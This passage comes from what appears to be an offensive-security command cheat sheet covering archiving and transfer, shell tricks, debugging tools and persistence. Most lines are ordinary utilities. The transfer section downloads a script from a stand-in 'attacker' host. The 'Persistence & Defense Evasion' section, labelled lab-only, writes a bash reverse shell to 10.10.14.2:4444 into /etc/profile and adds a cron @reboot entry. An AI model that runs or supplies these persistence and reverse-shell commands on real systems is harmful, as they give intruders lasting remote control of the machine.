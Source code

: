 ***

### VIII. 🧱 Archive & Transfer Arsenal

```bash
tar -czf archive.tar.gz /dir/
tar -xzf archive.tar.gz
zip -r files.zip /folder/
unzip files.zip
scp files.zip user@host:/tmp
wget http://attacker/file.sh -O /tmp/file.sh
curl -o /tmp/file.sh http://attacker/file.sh
base64 file > file.b64
base64 -d file.b64 > file
```

***

### IX. 🧠 Quick Shell Tricks

```bash
alias ll='ls -la'
history | grep ssh
export PATH=/usr/local/bin:/usr/bin:/bin
strings binary | grep flag
file /bin/ls
ldd /bin/bash
```

***

### X. ⚡ Process Injection & Debugging (Legal/Lab Only)

```bash
strace -f ./binary
ltrace ./program
gdb -q ./binary
readelf -a binary
objdump -d binary | less
```

***

### XI. 📜 Persistence & Defense Evasion (Lab Simulation)

```bash
echo "@reboot /home/user/script.sh" | crontab -
echo "bash -i >& /dev/tcp/10.10.14.2/4444 0>&1" > /etc/profile
```

***

### XII. 🔥 Operators’ Reference Table
